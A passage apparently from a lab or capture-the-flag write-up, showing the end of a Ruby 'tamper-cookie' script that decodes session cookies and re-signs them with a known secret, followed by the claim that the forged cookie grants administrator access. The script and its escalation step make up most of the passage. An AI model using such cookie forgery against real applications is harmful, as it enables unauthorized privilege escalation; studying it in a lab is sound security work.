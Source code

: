 ```ruby
        puts "( ERROR ) decode-cookie: " + err.to_s
    end
end

def main

    if ARGV.length != 2
        puts('usage: tamper-cookie <file> <secret>')
        return 1
    end

    cookies = IO.readlines(ARGV[0], chomp: true)

    for cookie in cookies

        obj = decode_cookie(cookie)
        puts("Decoded Cookie:\n")
        pp obj

        new_cookie = encode_object(obj, ARGV[1])
        puts("\nTampered Cookie:\n")
        puts(new_cookie)
    end
    return 0
end

main
```
![tamper-cookie](/assets/images/posts/rcci/tamper-cookie.png)

Using a new cookie we can now elevate ourselves to administrator privileges.

![admin_panel](/assets/images/posts/rcci/admin_panel.png)
